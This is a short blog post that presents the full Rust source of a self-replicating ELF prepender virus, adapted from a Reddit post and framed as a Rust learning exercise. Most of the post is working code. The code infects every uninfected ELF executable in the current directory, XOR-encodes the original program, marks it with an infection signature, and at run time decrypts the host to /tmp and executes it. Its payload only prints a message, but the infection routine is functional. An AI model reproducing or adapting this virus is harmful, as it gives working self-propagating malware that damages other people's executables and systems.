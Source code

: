 Title: ELF prepender
Date: 2020-1-2 10:01
Modified: 2020-1-2 10:01
Category: misc
Tags: rust, elf, linux 
Slug: elf_prepender
Authors: F3real
Summary: Simple rust ELF prepender

Recently I have found an interesting post on [reddit](https://www.reddit.com/r/rust/comments/d0hbsp/linuxfe2o3_a_rust_virus/) about \`virus\` written in rust. It simply infects all ELF files in the current directory using the basic prepending technique. The infected program, when run, will XOR decode real code and run it from the temp folder.

Since it is open-source, it actually makes a pretty good exercise if you want to learn more about rust while tinkering with something. The original code is not really idiomatic but `cargo clippy` and reddit comments can serve as a guide if you want to improve it.

My slightly modified version is bellow (proper error handling would require bigger rework).

~~~rust
use std::ffi::{OsStr, OsString};
use std::fs::File;
use std::io::prelude::*;
use std::io::{Read, SeekFrom, Write};
use std::os::unix::fs::OpenOptionsExt;
use std::process::Command;
use std::{env, fs, process};

const ELF_MAGIC: &[u8; 4] = &[0x7f, 0x45, 0x4c, 0x46]; // b"\x7FELF"

const PLAIN_HOST_PATH: &str = "/tmp/host";
const INFECTION_MARK: &[u8; 5] = &[0x40, 0x54, 0x4d, 0x5a, 0x40]; // @TMZ@
const XOR_KEY: &[u8; 5] = &[0x46, 0x65, 0x32, 0x4f, 0x33]; // Fe2O3
const VIRUS_SIZE: u64 = 2_677_560;

fn payload() {
    println!("Infected!!!");
}

fn read_file(path: &OsStr) -> Vec<u8> {
    let mut buf = Vec::new();
    if let Ok(mut f) = File::open(path) {
        f.read_to_end(&mut buf).unwrap();
    }
    buf
}

fn xor_enc_dec(mut input: Vec<u8>) -> Vec<u8> {
    for i in 0..input.len() {
        input[i] ^= XOR_KEY[i % XOR_KEY.len()];
    }
    input
}

fn is_elf(path: &OsStr) -> bool {
    // this will work for PIE executables as well
    // but can fail for shared libraries during execution
    let mut ident = [0; 4];
    match File::open(path) {
        Ok(mut f) => match f.read_exact(&mut ident) {
            Ok(_) => &ident == ELF_MAGIC,
            Err(_) => false,
        },
        Err(_) => false,
    }
}

fn is_infected(path: &OsStr) -> bool {
    let buf = read_file(path);
    match buf
        .windows(INFECTION_MARK.len())
        .position(|window| window == INFECTION_MARK)
    {
        Some(_) => true,
        _ => false,
    }
}

fn infect(virus: &OsString, target: &OsStr) {
    let host_buf = read_file(target);
    if host_buf.is_empty() {
        return;
    }
    let encrypted_host_buf = xor_enc_dec(host_buf);
    let mut virus_buf = vec![0; VIRUS_SIZE as usize];

    if let Ok(mut f) = File::open(virus) {
        if f.read_exact(&mut virus_buf).is_ok() {
            let mut infected = File::create(target).unwrap();
            infected.write_all(&virus_buf).unwrap();
            infected.write_all(&encrypted_host_buf).unwrap();
        }
    }
}

fn run_infected_host(path: &OsString) {
    let mut encrypted_host_buf = Vec::new();
    let mut infected = File::open(path).unwrap();

    let mut plain_host = fs::OpenOptions::new()
        .create(true)
        .write(true)
        .mode(0o755)
        .open(PLAIN_HOST_PATH)
        .unwrap();
    infected.seek(SeekFrom::Start(VIRUS_SIZE)).unwrap();
    infected.read_to_end(&mut encrypted_host_buf).unwrap();
    drop(infected);

    let decrypted_host_buf = xor_enc_dec(encrypted_host_buf);
    plain_host.write_all(&decrypted_host_buf).unwrap();
    plain_host.sync_all().unwrap();
    plain_host.flush().unwrap();

    drop(plain_host);
    Command::new(PLAIN_HOST_PATH).status().unwrap();
    fs::remove_file(PLAIN_HOST_PATH).unwrap();
}

fn main() {
    let args: Vec<String> = env::args().collect();
    let myself = OsString::from(&args[0]);

    if let Ok(current_dir) = env::current_dir() {
        for entry in fs::read_dir(current_dir).unwrap() {
            let entry = entry.unwrap();
            let path = entry.path();
            let metadata = fs::metadata(&path).unwrap();

            if metadata.is_file() {
                let entry_name = path.file_name().unwrap();
                if myself == entry_name {
                    continue;
                }
                if is_elf(entry_name) && !is_infected(entry_name) {
                    infect(&myself, entry_name);
                }
            }
        }
    }

    if fs::metadata(&myself).unwrap().len() > VIRUS_SIZE {
        payload();
        run_infected_host(&myself);
    } else {
        process::exit(0)
    }
}
~~~